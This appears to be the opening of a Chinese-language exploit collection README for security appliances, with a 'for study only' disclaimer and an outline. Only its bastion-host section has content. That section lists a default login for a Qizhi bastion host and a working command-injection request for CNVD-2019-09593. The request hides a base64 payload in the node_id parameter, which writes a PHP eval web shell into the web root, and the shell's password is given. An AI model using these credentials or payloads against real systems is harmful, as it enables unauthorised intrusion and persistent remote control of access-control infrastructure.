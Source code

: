# SecDevice Exploits

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **身份与访问控制**
    * [堡垒机](#堡垒机)

* **网络检测与响应**
    * [IDS](#ids)
    * [防火墙](#防火墙)
    * [网关](#网关)
    * [负载均衡](#负载均衡)
    * [VPN](#vpn)

* **终端响应与检测**
    * [EDR](#edr)
    * [数据防泄漏系统](#数据防泄漏系统)

---

# 身份与访问控制

## 堡垒机

**齐治堡垒机**
- **默认口令**
    - shterm/shterm

- **齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
    - [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)
        ```
        http://10.20.10.11/listener/cluster_manage.php
        https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
        /var/www/shterm/resources/qrcode/lbj77.php  密码10086
        ```

- **CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
    - [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)
